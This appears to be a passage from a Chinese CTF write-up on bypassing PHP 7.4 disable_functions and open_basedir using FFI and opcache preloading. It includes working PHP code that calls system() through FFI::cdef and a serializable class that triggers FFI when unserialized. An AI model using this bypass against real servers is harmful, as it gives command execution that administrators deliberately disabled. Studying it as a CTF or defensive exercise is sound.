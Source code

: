 phpinfo (php 7.4)

![image-20221224120952439](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212241209531.png)

![image-20221224120843988](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212241208076.png)

需要绕过 disable\_functions, 另外 open\_basedir 也限制成了当前目录

7.4 试了下 backtrace uaf 不行, 那就只剩 ffi 了

参考文档

[https://www.php.net/manual/zh/ffi.configuration.php](https://www.php.net/manual/zh/ffi.configuration.php)

[https://www.php.net/manual/zh/opcache.preloading.php](https://www.php.net/manual/zh/opcache.preloading.php)

![image-20221224121101532](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212241211671.png)

默认仅允许从被 preload 的文件中调用 ffi

但 op.preload 指定的文件只会在服务器启动时被预加载, 所以我们需要利用它已有的 class 来反序列化调用 ffi

ffi 基本形式

```php
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("whoami >/tmp/1");
echo file_get_contents("/tmp/1");
@unlink("/tmp/1");
?>
```

构造反序列化

```php
<?php
final class A implements Serializable {
    protected $data = [
        'ret' => null,
        'func' => 'FFI::cdef',
        'arg' => 'int system(const char *command);'
    ];

    private function run () {
        $this->data['ret'] = $this->data['func']($this->data['arg']);
    }

    public function __serialize(): array {
        return $this->data;
    }

    public function __unserialize(array $data) {
        array_merge($this->data, $data);
        $this->run();
    }

    public function serialize(): string {
        return serialize($this->data);
    }

    public function unserialize($payload) {
        $this->data = unserialize($payload);
        $this->run();
    }
}

```